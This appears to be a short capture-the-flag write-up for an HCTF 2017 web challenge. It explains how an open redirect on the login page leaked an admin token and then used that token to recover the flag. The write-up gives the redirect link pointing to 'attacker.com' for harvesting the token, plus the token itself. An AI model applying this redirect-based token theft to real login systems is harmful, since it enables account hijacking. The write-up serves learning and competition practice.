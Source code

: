My first thoughts was the XSS in JSONP, but later found there was an open redirect when login. And admin's token will be attached to the redirected address.

Just report the following link:

`http://auth.2017.hctf.io/login.php?n_url=http://attacker.com/`

After harvesting the token, visit `http://messbox.2017.hctf.io/?token=MTYwMTAwOTAwMDljNzA4MHxhR04wWmw5aFpHMXBibDlNYjFKbGVIaGhjakpsTWpNek1qST0=` and the flag can be found in cookies.

The XSS was likely for _Restored Again_.
